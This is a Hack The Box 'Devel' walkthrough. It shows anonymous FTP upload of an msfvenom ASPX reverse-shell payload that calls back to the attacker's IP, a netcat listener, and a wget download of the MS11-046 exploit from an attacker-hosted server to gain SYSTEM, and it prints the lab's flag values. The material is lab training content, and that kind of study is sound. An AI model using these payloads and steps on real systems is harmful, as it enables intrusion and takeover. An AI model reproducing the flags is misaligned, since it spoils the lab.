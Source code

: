 # Devel - Easy

## Enumeration

`sudo nmap 10.129.232.230 -p- -sV -A -vv --open --reason -Pn`

Possible areas to enumerate further:
```
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
```
1. FTP Anonymous Login

    ```
    ftp 10.129.232.230
    Connected to 10.129.232.230.
    220 Microsoft FTP Service
    Name (10.129.232.230:kali): Anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password: 
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    229 Entering Extended Passive Mode (|||49180|)
    125 Data connection already open; Transfer starting.
    03-18-17  02:06AM       <DIR>          aspnet_client
    03-17-17  05:37PM                  689 iisstart.htm
    03-17-17  05:37PM               184946 welcome.png
    ```
    Enumeration of `aspnet_client` and it's folders yielded nothing.
2. HTTP Web Server (IIS7)

    Accessing `http://10.129.123.120` shows the default IIS page (`iisstart.htm`)

## Gaining Shell

Seems like I am able to upload files via FTP, and access it via port 80. Let's create a `msfvenom` payload, using `.aspx` extension as it is a Windows IIS server.

Payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.77 LPORT=4444 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2852 bytes
```

>The payload is `windows/shell_reverse_tcp` as we want a stageless payload. If the staged payload is used (`windows/shell/reverse_tcp`), the connection will be successful but will be dropped on the next input.

Using FTP anonymous login, and uploading the file via `put shell.aspx`, it can now be accessed via port 80, `http://10.129.123.120/shell.aspx`. Start the listener on the Kali and access `shell.aspx` - the shell is obtained.

```
nc -nlvp 4444                                                                          
listening on [any] 4444 ...
connect to [10.10.14.77] from (UNKNOWN) [10.129.232.230] 49191
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
## Privilege Escalation
A shell is obtained, but it is neither a user shell nor root shell. 
```
whoami
iis apppool\web
```
Further enumeration is required.
```
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          11/5/2023, 3:46:47 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.472 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.555 MB
Virtual Memory: In Use:    586 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.232.230
                                 [02]: fe80::54a6:61dc:a17c:b445
                                 [03]: dead:beef::bcc1:40a5:ecb3:d3d3
                                 [04]: dead:beef::54a6:61dc:a17c:b445
```
Searching the OS name and version...
```
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```
... yield an exploit! https://www.exploit-db.com/exploits/40564

Download and compile the exploit as per the instructions: `i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32`

Transfer `MS11-046.exe` from Kali over to `C:\Windows\Tasks`.
> I first transferred `wget.exe` via FTP anonymous login, and used `wget` to download off my Kali (`sudo python3 -m http.server 80`), with `C:\inetpub\wwwroot\wget.exe http://10.10.14.77/MS11-046.exe`. Unsure if transferring directly with FTP (binary mode) will affect it.

Easy root:
```
C:\Windows\Tasks>.\MS11-046.exe
.\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Get both flags. GG.
```
C:\Users\babis>type Desktop\user.txt
type Desktop\user.txt
0d498bdeb6fafca4d7e3be3dbe9c7aff

C:\Users\babis>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
29f3a7cffba6060bb43f01b6382152cc
```